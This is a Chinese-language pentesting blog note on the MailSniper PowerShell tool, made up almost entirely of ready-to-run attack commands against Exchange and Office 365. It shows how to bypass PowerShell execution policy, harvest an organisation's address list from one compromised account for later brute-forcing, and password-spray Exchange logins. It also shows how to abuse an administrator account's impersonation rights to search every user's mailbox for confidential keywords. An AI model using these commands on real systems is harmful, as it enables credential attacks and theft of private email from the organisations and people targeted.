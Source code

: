 ```yaml
---
title: mailsniper.ps1
top: false
cover: false
categories:
- 渗透测试
tags:
- mailsniper.ps1
- 信息搜集
abbrlink: 27598
date: 2020-08-23 15:14:20
keywords:
summary:
img:
password:
---
```


> 下载地址：https://github.com/dafthack/MailSniper.git



## mailsniper.ps1获取outlook所有联系人	

> 收集邮箱，为后续爆破准备



#### 前提

掌握其中一个用户邮箱的账户密码，并可以登录outlook





#### 利用

命令格式

```bash
# 在域内机器上执行
powershell -exec bypass
Import-Module .\MailSniper.ps1
Get-GlobalAddressList -ExchHostname outlook地址 -UserName 域名\域用户名 -Password 已知的邮箱密码 -OutFile 导出结果.txt
```



1.目标outlook搭建在自己的服务器上

```bash
ExchHostname指向自己的邮箱服务器地址即可
```



2.目标outlook在office365中

```bash
一样的道理，只不过把ExchHostname指向outlook.office365.com即可，username使用完整的邮箱，而不仅仅是用户名。

```







#### 爆破exchange（指定密码爆破邮箱）

```bash
powershell -exec bypass
Import-Module .\MailSniper.ps1
Invoke-PasswordSprayEWS -ExchHostname owa2013.rootkit.org -UserList .\users.txt -Password Admin12345 -ExchangeVersion Exchange2013_SP1

# -ExchHostname：ping -a exchange服务器ip -> 得到主机名 -> 主机名拼接域名（如：owa2013.rootkit.org）
# -ExchangeVersion：若不知道可先不指定
```







#### MailSniper检索邮件内容

Mailsniper包含两个主要的cmdlet，分别是`Invoke-SelfSearch`和`Invoke-GlobalMailSearch`，用于检索邮件中的关键字。

```bash
## 查找当前用户的Exchange邮箱数据
Invoke-SelfSearch -Mailbox zhangsan@fb.com -Terms *机密* -Folder 收件箱 -ExchangeVersion Exchange2013_SP1
# 查找邮件内容中包含pwn字符串的邮件，-Folder参数可以指定要搜索的文件夹，默认是inbox，使用时最好指定要搜索的文件夹名称（或者指定all查找所有文件），因为该工具是外国人写的，Exchange英文版收件箱为Inbox，当Exchange使用中文版时收件箱不为英文名，默认查找inbox文件夹会因找不到该文件而出错

## 查找所有用户的Exchange邮箱数据
Invoke-GlobalMailSearch -ImpersonationAccount zhangsan -ExchHostname test2k12 -AdminUserName fb.com\administrator -ExchangeVersion Exchange2013_SP1 -Term "*内部邮件*" -Folder 收件箱
# 利用administrator管理员用户为普通用户zhangsan分配ApplicationImpersonation角色，检索所有邮箱用户的邮件中，包括“内部邮件”关键字的内容
```

















































































































